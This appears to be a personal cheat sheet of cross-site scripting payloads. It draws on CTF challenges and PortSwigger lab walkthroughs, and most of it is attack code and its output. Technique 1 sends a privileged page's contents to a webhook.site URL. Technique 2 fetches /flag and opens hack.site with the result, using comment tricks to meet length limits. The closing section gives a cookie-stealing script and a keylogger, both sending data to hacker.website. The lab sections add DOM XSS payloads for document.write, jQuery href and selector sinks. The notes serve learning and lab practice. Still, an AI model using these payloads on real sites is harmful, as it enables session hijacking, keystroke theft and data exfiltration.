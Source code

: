 # JavaScript based Payloads

## Basic test payloads

```html
<img src=x onerror=alert(document.domain)>

<script>document.write(123)</script>

```

## Interesting Techniques 


### Technique 1 
>#### Fetch-free technique to obtain a privileged page's content


```html 
<form method="post" id="theForm" action="/flag" target='hacker'>
    <!-- Form body here -->
</form>
<script> 
    let w = window.open('','hacker'); 	
    // w can be accessed as long as same-origin policy is satisfied
    
    document.getElementById('theForm').submit();
    
    setTimeout(()=>{
        document.location= `https://webhook.site/645c63<something>5-a172-a9014e389741?c=${w.document.body.innerHTML}`
    },500);

</script>

```

### Technique 2 
>#### Using quotes and comments to swallow existing content and to achieve XSS


```js
// Server-side code for a To-Do list creation feature with limitations on both individual line size and the entire list size 

const parsed = list
    .trim()
    .split("\n")
    .map((x) => x.trim());
if (parsed.length > 20) {
    res.status(400).send("list must have at most 20 items");
    return;
}
if (parsed.some((x) => x.length > 12)) {
    res.status(400).send("list items must not exceed 12 characters");
    return;
}

// The created list can be accessed as a checkbox list in a HTML file 

```

```html
<!-- Original Payload -->

 <img src=''onerror='fetch("/flag").then(r=> r.text() ).then( t=> window.open("http:"+"//hack"+".site"+"/"+t))'>

 <!-- Modified Payload to satisfy the length requirements -->

<img src='
'onerror='/*
*/fetch("/*
*//flag")./*
*/then(r=>/*
*/r.text()/*
*/).then(/*
*/t=>/*
*/window/*
*/.open(/*
*/"http:"+/* 
*/"//hack"/*
*/+".site/*
*/"+"/"/*
*/+t))'>

<!-- The ' (quote) after the src attritube and the ' before onerror would engulf the in between junk html as an img src and would throw an error.-->

<!-- Anything within the quotes of onerror attritube would be considered as js code. So to omit the junk html associated with each line in the list, comments (/**/) are used. -->

```

### Techniques learnt on PortSwigger Labs

>#### DOM XSS in document.write sink using source location.search
>
> - *General Thought process for XSS (pretending it to be a black box test)* 
> - A "search" text box to search for blogs is present.
> - The text entered in the text box is returned back in the Server's response and gives a semblance of *reflected XSS*. But it isn't possible in reality as the characters such as `'` and `"` are represented using HTML entities.
> - So, must look for the `document.write` sink as the question suggests. 

Spotted the sink in the HTML code:

```html
<script>
    function trackSearch(query) {
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }
</script>
```
```bash
# First, the 'search' parameter from the query string in URL is extracted and stored in the variable 'query'.

# The variable 'query' is passed to the function 'trackSearch' which uses document.write() (the sink) to write a piece of HTML code to the page which includes the contents of the variable 'query' facilitating DOM based XSS
```

Test Payload :

`/?search=hello"world`

```html
<!-- O/p -->

<img src="/resources/images/tracker.gif?searchTerms=hello" world"="">

<!-- The payload worked! (despite the wierd addition of a SPACE character before the word 'world'; might be a browser thing, not sure) -->
```

XSS Payload : 

`/?search="><img+src%3dx+onerror%3dalert('XSS!')>`

```html
<!-- O/p -->

<img src="/resources/images/tracker.gif?searchTerms=">
<img src="x" onerror="alert('XSS!')">

<!-- The payload worked! (despite the wierd addition of "" (quotes) for the attributes' values of the second "img" tag which wasn't originally present in the payload; might be a browser thing, not sure) -->
```

---

>#### DOM XSS in jQuery anchor href attribute sink using location.search source

The Vulnerable Code :

`/feedback?returnPath=/`

```html
<div class="is-linkback">
    <a id="backLink" href="/">Back</a>
</div>
<script>
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>                 
```

**Initial Payload** (Attempted to break out of the "" (quotes) of the anchor tag's href attribute to introduce a malicious img tag):

`/feedback?returnPath=/">Back</a><img+src%3dx+onerror%3dalert(document.cookie)>"`

```html
<!-- Learnt that it is not possible to break out of the "" (quotes) of an anchor tag's href attribute in jQuery as both the injected quotes got replaced to the corresponding HTML entity.-->

<a id="backLink" href="/&quot;>Back</a><img src=x onerror=alert(document.cookie)>&quot;">Back</a>

```

**Final Payload** :

`/feedback?returnPath=javascript:alert(document.cookie)`

```html
<!-- The alert() is called upon a click on the <a> tag. -->

<a id="backLink" href="javascript:alert(document.cookie)">Back</a>
```

---

> #### DOM XSS in jQuery selector sink using a hashchange event


**The vulnerable code :**

```html
<script src="/resources/js/jquery_1-8-2.js"></script>
<script src="/resources/js/jqueryMigrate_1-4-1.js"></script>
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```

**Functionality :**

```
# The above code fires a function when the string following the hash symbol in the URL changes.

# The function first extracts the string following the hash and places it in the contains() method. Therefore the 'post' variable will have an object containing a list of h2 elements (within the section element with a class name of 'blog-list') that have the extracted string in its text content.

# Next, the 'if' condition checks if the post variable has any data assigned by the jQuery selector in the previous line. If yes, the code initiates a scroll to the first element in the list within the post variable (Fun fact: the jQuery selector in question always returns an Object irrespective of the number of matched h2 elements).

# So visiting /#No%20Silly will scroll down to <h2>No Silly Names, Please</h2> within <section class="blog-list">                    
```

**Vulnerability :**

Since an older version of jQuery is being used here, the `contains` method allowes to create an arbitrary DOM element. The created element is actually detached from the main DOM tree and is not rendered in the main page. But the creation of an `img` element (*even a detached one from the main DOM tree*) with a `src` attribute set **will make the browser attempt to fetch the image from the specified source**. We can utilize this mechanism to trigger an error and get an XSS.

**Initial Payload (for XSS) :**

Entered the following at the end of the URL and successfully got the `alert` box: 

`/#%3Cimg%20src=x%20onerror=alert(%22XSS%22)%3E`

**Final Payload (for solving the lab) :**

- Visited the exploit server and entered the following in the Body section:

 `<iframe src="https[:]//0a6800c704f3764e80c9b29c009d0023.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`

- The above payload will load the `iframe` from the specified source. Once the page is loaded in the iframe, the `onload` attribute will update the `src` attribute to include the previously crafted XSS payload to trigger the `print()`. This **will initiate a print action in the Victim's browser** to print the web page.

---

## Common XSS Payloads

```html
<!-- Session Stealing -->

<script>fetch('https[:]//hacker.website/steal?cookie=' + btoa(document.cookie));</script> 

<!-- Key Logger -->

<script>document.onkeypress = function(e) { fetch('https[:]//hacker.website/log?key=' + btoa(e.key) );}</script>
```

